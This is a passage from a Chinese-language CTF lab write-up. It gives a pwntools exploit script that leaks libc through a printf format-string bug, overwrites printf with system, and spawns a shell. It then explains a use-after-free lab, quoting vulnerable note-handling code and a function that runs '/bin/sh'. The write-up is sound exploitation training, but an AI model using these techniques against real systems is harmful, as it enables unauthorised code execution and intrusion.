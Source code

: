 ```python
	sleep(0.3)
	data = cn.recv()
	if data.find("here") != -1:
		break

pay = "aaaa%7$s\x00"
cn.sendline(pay)
cn.recvuntil('aaaa')
printf = u32(cn.recv()[:4])
print hex(printf)#leak printf

system = printf-libc.symbols['printf']+libc.symbols['system']
print hex(system)

pay = "%"+str(system&0xffff)+"c%7$hn" 
pay += "%"+str((system>>16) - (system&0xffff))+"c%11$hn\x00"
cn.sendline(pay)#hijack printf->system
cn.recv()

while 1:
	cn.send("here\x00")
	sleep(0.3)
	data = cn.recv()
	if data.find("here") != -1:
		break

cn.sendline('/bin/sh\x00')
cn.interactive()
```

ps.通过修改保存的ebp的值，经过两次return之后，esp应该会被修改成我们所改的值，若在bss上写入rop代码，然后控制esp到bss，应该也是可以拿到shell的。



## lab10

UAF的题目的利用方法是F，A，U（先FREE,再修改chunk，调用chunk中的函数指针）。让两个指针实际指向同一个chunk，一个指针把内存解释为字符串，从而写入任意值，另一个指针把内存解释为函数指针。从而控制了EIP。

这题首先是为了题目需要，在struct中存了一个函数指针。

```
struct note {
	void (*printnote)();
	char *content ;
};
```

还喜闻乐见的有malloc任意size的代码：

```
void add_note(){
...
            read(0,buf,8);
            size = atoi(buf);
            notelist[i]->content = (char *)malloc(size);
...
}
```
连system都给了2333
```
void magic(){
    system("/bin/sh");
}

```

